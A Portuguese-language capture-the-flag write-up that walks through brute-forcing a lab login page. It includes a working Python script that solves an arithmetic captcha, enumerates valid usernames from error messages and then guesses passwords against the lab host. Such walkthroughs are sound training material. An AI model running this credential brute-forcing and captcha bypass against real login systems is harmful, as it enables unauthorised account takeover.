


# _**Capture CTF**_


## _**Enumeração**_
Vamos investigar o arquivo que foi fornecido  
Temos uma lista de nomes e possíveis senhas  
Podemos tentar realizar um ataque de força bruta com cada usuário possível e com cada senha possível para cada usuário  
Isso levaria MUITO tempo  
Outra solução, pela dica dada, é investigar as respostas que temos com <mark>Burpsuite</mark> ao inserir nomes e senhas  
Após alguns pequenos testes para observar alguma mudança, temos que depois de certas tentativas, um _captha_ é solicitado  
Parece que vamos ter que montar um script ou pesquisar na Internet  
Pouco tempo de procura, encontramos o seguinte código
> ```bash
> import requests
> import re
> # parts of this script was generated by chatgpt
> # Function to extract the captcha question and answer from the login page
> def extract_captcha(html):
>     captcha_regex = r'(\d+)\s*([\+\-\*])\s*(\d+)\s*=\s*\?'
>     match = re.search(captcha_regex, html)
>     if match:
>         num1 = int(match.group(1))
>         operator = match.group(2)
>         num2 = int(match.group(3))
>         if operator == '+':
>             answer = num1 + num2
>         elif operator == '-':
>             answer = num1 - num2
>         elif operator == '*':
>             answer = num1 * num2
>         return answer
>     else:
>         return None
> 
> captcha_answer = 1
> # Read usernames from file
> with open('usernames.txt', 'r') as file:
>     usernames = [line.strip() for line in file]
> # Try each username
> for username in usernames:
>     # Send login request
>     session = requests.session()
>     #data = {'username': username, 'password': 'password'}
>     #response = session.post('http://10.10.220.214/login', data=data)
>     #captcha_answer = extract_captcha(response.text)
>     data = {'username': username, 'password': 'password', 'captcha': captcha_answer}
>     response = session.post('http://10.10.220.214/login', data=data)
>     captcha_answer = extract_captcha(response.text)
> 
>     error_message_match = re.search(r'Error(.+)', response.text)
>     if error_message_match:
>         error_message = error_message_match.group(1)
>     else:
>         error_message = 'Error message not found'
>     print(f"{username} - Error message: {error_message} ")
> ```

Após algum tempo de código sendo executado, temos nosso usuário com resposta diferente  



Agora para a senha, vamos realizar algumas alterações no código  
Abaixo, as linhas alteradas  
> ```bash
> with open('passwords.txt', 'r') as file:
> passwords = [line.strip() for line in file]
> for passwords in passwords:
> data = {'username': 'natalie', 'password': passwords, 'captcha': captcha_answer}
> print(f"{passwords} - Error message: {error_message} ")
> ```
Essas alterações irão fazer com que o código percorra o arquivo _passwords.txt_ e tente cada um até encontrar o certo para o usuário que descobrimos anteriormente  
Após algum tempo, temos nosso resultado de senha  



Agora, só realizar login e pegar a flag!
